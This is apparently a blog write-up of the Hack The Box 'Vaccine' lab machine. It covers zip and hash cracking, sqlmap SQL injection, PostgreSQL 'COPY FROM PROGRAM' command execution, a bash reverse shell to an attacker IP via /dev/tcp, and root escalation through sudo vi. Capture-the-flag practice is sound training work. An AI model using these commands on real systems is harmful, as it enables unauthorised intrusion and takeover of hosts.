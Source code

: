 ```yaml
---
layout: post
title: "[Hack the Box] Vaccine"
categories: Write-up
---
```


```
[*] environment: Kali Linux 19.04
[*] target IP : 10.10.10.46
[*] Main Idea : Reverse shell by SQL Injection
```



First, we have to get information in the previous problem, `Oopsie`.

<p align="center"><img src="https://user-images.githubusercontent.com/64528476/90974034-7b839c80-e562-11ea-9199-489d31d0ee93.png"></p>

```
User: ftpuser
Password: mc@F1l3ZilL4
```

We can get id and password for using ftp.



### Port Scanning

<p align="center"><img src="https://user-images.githubusercontent.com/64528476/90974067-bab1ed80-e562-11ea-9a57-8b8e8c13df23.png"></p>

FTP Port is OPENED! Let's access to ftp.



<p align="center"><img src="https://user-images.githubusercontent.com/64528476/90974096-fea4f280-e562-11ea-8140-c49b5066e310.png"></p>

We get the file, `backup.zip`.



<p align="center"><img src="https://user-images.githubusercontent.com/64528476/90974122-28f6b000-e563-11ea-9d3f-39b8de4a3142.png"></p>

There is password.. Let's crack the password! I'll use `fcrackzip`.



```bash
$ fcrackzip -D -u -p /usr/share/wordlists/rockyou.txt backup.zip
```

<p align="center"><img src="https://user-images.githubusercontent.com/64528476/90974166-930f5500-e563-11ea-821f-1285954b6ba2.png"></p>

GOOD!



In `index.php`, we can get the id and password.

<p align="center"><img src="https://user-images.githubusercontent.com/64528476/90974185-bafeb880-e563-11ea-94d8-e2c2c6d31b97.png"></p>

Let's crack the md5! I used https://crackstation.net/.

<p align="center"><img src="https://user-images.githubusercontent.com/64528476/90974197-d79af080-e563-11ea-9dee-f5d82a02d4d5.png"></p>

YES! Let's login the web.



<p align="center"><img src="https://user-images.githubusercontent.com/64528476/90974226-1761d800-e564-11ea-8c81-3295e9f068c5.png"></p>

<br>
Let's do SQL Injection! I used `sqlmap`.



```bash
$ sqlmap -u "http://10.10.10.46/dashboard.php?search=1" --cookie="PHPSESSID=sul5gdrt4aiqr2s3q9dlq2htda" 
```

You should give cookie value to command.

<p align="center"><img src="https://user-images.githubusercontent.com/64528476/90974287-c1d9fb00-e564-11ea-8740-d5c6ce946a40.png"></p>

Injection is possible!!



```bash
$ sqlmap -u "http://10.10.10.46/dashboard.php?search=1" --cookie="PHPSESSID=sul5gdrt4aiqr2s3q9dlq2htda" --os-shell
```

We can get the shell very easily with `sqlmap`. 



Actually, my solution was not this. I make the php file for reverse shell in `/tmp`. and execute the file.

```SQL
COPY (SELECT "file content") TO "/tmp/flag.php";--
```

```SQL
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM "id";
SELECT 1,1,1, * FROM cmd_exec;
```



We'll get the **bash reverse shell**.

```shell
os-shell> bash -c 'bash -i >& /dev/tcp/10.10.14.31/4444 0>&1'
```

<p align="center"><img src="https://user-images.githubusercontent.com/64528476/90974465-758fba80-e566-11ea-9d23-a363c611e28b.png"></p>



<p align="center"><img src="https://user-images.githubusercontent.com/64528476/90974506-bd164680-e566-11ea-8655-3ab0398ea013.png"></p>

We get the user flag!



<p align="center"><img src="https://user-images.githubusercontent.com/64528476/90974522-17afa280-e567-11ea-9b82-68bfe85bb3ce.png"></p>

When I see the `dashboard.php`. I can get the postgres' password!

```
password: P@s5w0rd!
```



Let's access the ssh. When we command,

```bash
$ sudo -l
```

We know the command that we can execute with root permission without root authorization.

<p align="center"><img src="https://user-images.githubusercontent.com/64528476/90974539-475eaa80-e567-11ea-8b41-428572cb4c89.png"></p>



```bash
$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

We can do this without root!

We can get the shell with `vi` editor by using `:sh`.



<p align="center"><img src="https://user-images.githubusercontent.com/64528476/90974592-ade3c880-e567-11ea-83ec-ba3bbd7eedae.png"></p>

We are root!



<p align="center"><img src="https://user-images.githubusercontent.com/64528476/90974605-c2c05c00-e567-11ea-9453-6f5ea594d62c.png"></p>

We get the root flag!!



This problem was quite easy.. isn't it?